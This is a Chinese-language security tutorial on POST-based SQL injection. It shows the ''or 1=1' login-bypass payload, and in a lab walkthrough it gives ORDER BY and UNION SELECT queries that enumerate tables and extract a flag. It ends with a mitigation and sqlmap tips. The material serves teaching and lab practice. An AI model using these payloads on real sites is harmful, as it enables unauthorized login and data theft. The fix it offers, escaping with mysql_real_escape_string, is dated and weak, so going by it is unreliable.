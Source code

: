 # Chapter 3.2 - POST Injection

[TOC]

## 0x00 原理

### POST注入

>POST请求：向指定资源提交数据进行处理请求(例如提交表单或者上传文件)。数据被包含在请求体中。POST请求可能会导致新的资源的创建和/或已有资源的修改。

在HTML中，POST传参方式会将表单打包后隐藏在后台发送给服务器，通常是通过页面文本表单(Form)和文件上传表单和JSON表单、XML表单。

对应的标识和传参方式：

|        传参类型        |           传参编码标识            |                     传参方式                     |
| :--------------------: | :-------------------------------: | :----------------------------------------------: |
| FORM表单（**最常见**） | application/x-www-form-urlencoded |           与GET型相同，`属性名=参数名`           |
|      文件上传表单      |        multipart/form-data        | `------WebKitFormBoundaryXXXXXX`分割的结构化信息 |
|     JSON域/XML表单     |         application/json          |           按照JSON/XML调用规范编写传参           |

而POST注入和之前的GET显错注入相同，只是将注入点换为以上的传参类型指定的位置，用特定的传参方式进行传参。

### 万能密码

```mysql
万能密码：'or 1=1 --+
```

假设数据库中存放用户信息的表是**admin**，其中存放用户名的字段是**username**，存放密码的字段是**password**，在用户验证页面中用来接收用户所输入的用户名和密码的变量分别是**uname**和**pwd**，当用户在用户验证页面输入用户名和密码后，会提交给如下的语句进行处理：

```mysql
SELECT * FROM admin where `username`='$uname' and `password` = '$pwd'
```

而在输入万能密码后得到的语句：

```mysql
SELECT * FROM admin where `username`='XXX' and `password` = ''or 1=1 --+'
```

由此可知，在用户名和密码检索失败后会转入用户输入的语句`or 1=1`，

使where后的条件均为真，则可以绕过验证登陆。

## 0x01 靶场实战

1. 尝试万能密码登入，成功

2. 进行字段数的猜解`order by X -- qwe`，在顺次输入到输入order by 4后出现报错，说明该表只存在四个字段

3. 通过SQLi方法找出表名

   ``` mysql
   UNION SELECT 1,2,TABLE_NAME from information_schema.tables where table_schema=database() -- qwe 
   ```

4. 找出对应的字段名

   ```mysql
   UNION SELECT 1,2,column_name from information_schema.columns where table_schema=database() and table_name='flag' -- qwe 
   ```

5. 得到FLAG

   ```mysql
   UNION SELECT 1,2,flag from flag -- qwe
   ```

   

## 0x02 修复方法

1. 万能密码的修复方法

   通过PHP链接到数据库文件中添加转义语句将语句符号强制转换为字符串再传入数据库：

   ```php
   $user = mysql_real_escape_string($_POST[‘user’]);
   ```

2. 注入部分修复与上一章SQLi相同。

## 0x03 附加

1. POST传参大概率没有长度限制，相比GET注入来说攻击者可以上传更加危险的信息。
2. 使用Sqlmap进行自动检测漏洞时可以使用`--form`语句，使用`*`定位注入点。